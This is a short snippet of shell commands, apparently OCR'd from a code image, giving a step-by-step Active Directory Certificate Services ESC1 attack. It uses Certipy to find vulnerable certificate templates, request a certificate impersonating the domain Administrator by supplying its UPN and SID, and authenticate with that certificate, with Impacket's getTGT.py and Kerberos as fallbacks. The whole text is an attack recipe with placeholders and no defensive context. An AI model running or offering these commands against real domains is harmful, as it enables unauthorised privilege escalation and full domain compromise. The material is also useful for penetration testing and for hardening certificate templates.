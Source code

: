# 1. Finding vulnerable template
certipy find -u <username> -p '<password>' -target <CA_HOST> -vulnerable -stdout

# 2. Request a cert that impersonates Administrator
certipy req -u <username> -p '<password>' -target <CA_HOST> -ca <CA_NAME> \
            -dc-ip <DC_IP> \
            -dc-host <DC_HOST> \
            -template <ESC1_TEMPLATE> \
            -upn 'administrator@<DOMAIN>' -sid <ADMIN_SID>

# 3. Log on with the minted cert
certipy auth -pfx administrator.pfx -dc-ip <DC_IP>

# 4. If password of hash fails:
getTGT.py <domain>/<username>:'<password>' -dc-ip <DC_IP>

# 5. Using Kerberos for certificate request.
certipy req -u <username> -k -target <CA_HOST> -ca <CA_NAME> \
            -dc-ip <DC_IP> \
            -dc-host <DC_HOST> \
            -template <ESC1_TEMPLATE> \
            -upn 'administrator@<DOMAIN>' -sid <ADMIN_SID>
